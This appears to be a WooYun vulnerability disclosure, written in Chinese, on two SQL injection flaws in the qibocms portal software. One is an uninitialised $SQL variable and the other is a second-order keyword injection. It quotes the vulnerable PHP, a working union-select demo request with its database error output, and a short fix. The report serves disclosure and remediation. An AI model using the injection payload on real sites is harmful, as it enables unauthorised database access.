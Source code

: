 ## WooYun-2014-80867：qibocms地方門戶系統注入


### 詳細說明

```php
if(ereg("^([-_0-9a-zA-Z]+)$",$_GET[jobs])){

    //不讀資料庫

    if(is_file(dirname(__FILE__)."/../inc/job/$_GET[jobs].php")){

        include(dirname(__FILE__)."/../inc/job/$_GET[jobs].php");

    }

}elseif(ereg("^([-_0-9a-zA-Z]+)$",$_GET['job'])||ereg("^([-_0-9a-zA-Z]+)$",$_POST['job'])){

    //读数据库

    require(dirname(__FILE__)."/"."global.php");

    if(ereg("^([-_0-9a-zA-Z]+)$",$job)&&is_file(ROOT_PATH."inc/job/$job.php")){

        include(ROOT_PATH."inc/job/$job.php");

    }

}
```


include文件進來。
inc/job/ckreg.php 中

```php
}elseif($type=='yzimg'){

    if($db->get_one("SELECT * FROM {$pre}yzimg WHERE $SQL imgnum='$name' AND sid='$usr_sid'")){

        die("<img src=$webdb[www_url]/images/default/check_right.gif> <font color=red>验证码输入正确!</font>");

    }else{

        die("<img src=$webdb[www_url]/images/default/check_error.gif>请输入正确的验证码"); 

    }
```

這裡的$SQL並沒有初始化, 結合qibocms的全局機制 可以直接控制這個變量 導致注入。

![1])(https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.14/3.14-1.jpg)

demo測試:
```sh
http://**.**.**.**/do/job.php?job=ckreg&type=yzimg&SQL=1=1 union select 1%23
數據庫連接出錯:SELECT * FROM life5_yzimg WHERE 1=1 union select 1# imgnum='' AND sid='1wmqh6ce'
The used SELECT statements have a different number of columns
1222請輸入正確的驗證碼
```

第二個問題
在wei/member/post.php中

```php
elseif($action=="del")

{

    $rsdb=$db->get_one("SELECT B.*,A.* FROM `{$_pre}content` A LEFT JOIN `{$_pre}content_1` B ON A.id=B.id WHERE A.id='$id'");

    if($rsdb[fid]!=$fidDB[fid]){    

        showerr("欄目有問題");

    }

    if($rsdb[uid]!=$lfjuid&&!$web_admin)

    {

        showerr("你無權操作");

    }

    $db->query("DELETE FROM `{$_pre}content` WHERE id='$id' ");

    $db->query("DELETE FROM `{$_pre}content_1` WHERE id='$id' ");

    $db->query("DELETE FROM `{$_pre}comments` WHERE id='$id' ");

    keyword_del($id,$rsdb['keywords']);
```
keyword_del($id,$rsdb['keywords']);
這裡是出庫來的 所以能引入轉義符啥的。

```php
function keyword_del($id,$keyword){

    global $db,$_pre;

    if(!$keyword){

        return ;

    }

    $detail2=explode(" ",$keyword);

    foreach( $detail2 AS $key=>$value){

        if($value){

            $db->query("UPDATE `{$_pre}keyword` SET num=num-1 WHERE BINARY `keywords`='$value'");

            $_rs=$db->get_one("SELECT kid,num FROM `{$_pre}keyword` WHERE BINARY `keywords`='$value'");

            if($_rs[num]<1){

                $db->query("DELETE FROM `{$_pre}keyword` WHERE BINARY `keywords`='$value'");    

            }

            $kid=$_rs[kid];

            $db->query("DELETE FROM `{$_pre}keywordid` WHERE `kid`='$kid' AND id='$id'");
```

可以看到 出庫的沒過濾 再一次帶入到查詢當中

![2])(https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.14/3.14-2.jpg)

首先 關鍵字中寫一些特殊字符 然後入庫

![3])(https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.14/3.14-3.jpg)

修改。
<br />
在點擊確認。

![4])(https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.14/3.14-4.jpg)

出庫 造成注入。

### 漏洞證明

![1])(https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.14/3.14-1.jpg)

### 修復方案

初始化、出庫轉義。